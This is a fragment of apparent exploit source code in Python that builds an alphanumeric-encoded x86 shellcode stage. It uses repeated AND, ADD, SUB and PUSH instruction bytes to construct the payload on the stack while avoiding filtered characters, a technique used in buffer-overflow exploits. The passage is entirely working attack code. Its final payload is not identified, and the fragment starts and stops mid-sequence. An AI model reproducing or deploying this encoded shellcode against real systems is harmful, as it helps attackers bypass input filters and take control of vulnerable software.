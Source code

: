 ```
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x61\x11\x32\x30" ## add  eax, 0x30321161
stage4 += "\x05\x61\x01\x41\x20" ## add  eax, 0x20410161
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x16\x63\x74\x66" ## add  eax, 0x66746316
stage4 += "\x05\x26\x53\x64\x55" ## add  eax, 0x55645326
stage4 += "\x05\x14\x33\x53\x34" ## add  eax, 0x34533314
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x55\x43\x73\x71" ## add  eax, 0x71734355
stage4 += "\x05\x55\x43\x73\x61" ## add  eax, 0x61734355
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x64\x64\x67\x43" ## add  eax, 0x43676464
stage4 += "\x05\x54\x53\x56\x33" ## add  eax, 0x33565354
stage4 += "\x05\x63\x63\x35\x33" ## add  eax, 0x33356363
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x55\x62\x16\x15" ## add  eax, 0x15166255
stage4 += "\x05\x55\x61\x05\x15" ## add  eax, 0x15056155
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x11\x26\x66\x56" ## add  eax, 0x56662611
stage4 += "\x05\x10\x16\x65\x45" ## add  eax, 0x45651610
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x57\x74\x60\x57" ## add  eax, 0x57607457
stage4 += "\x05\x47\x74\x50\x47" ## add  eax, 0x47507447
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x71\x56\x73\x35" ## add  eax, 0x35735671
stage4 += "\x05\x60\x45\x63\x45" ## add  eax, 0x45634560
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x76\x76\x16\x43" ## add  eax, 0x43167676
stage4 += "\x05\x65\x65\x26\x32" ## add  eax, 0x32266565
stage4 += "\x05\x54\x54\x14\x32" ## add  eax, 0x32145454
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x33\x35\x61\x22" ## add  eax, 0x22613533
stage4 += "\x05\x43\x25\x50\x22" ## add  eax, 0x22502543
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x54\x67\x11\x71" ## add  eax, 0x71116754
stage4 += "\x05\x54\x67\x10\x71" ## add  eax, 0x71106754
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
```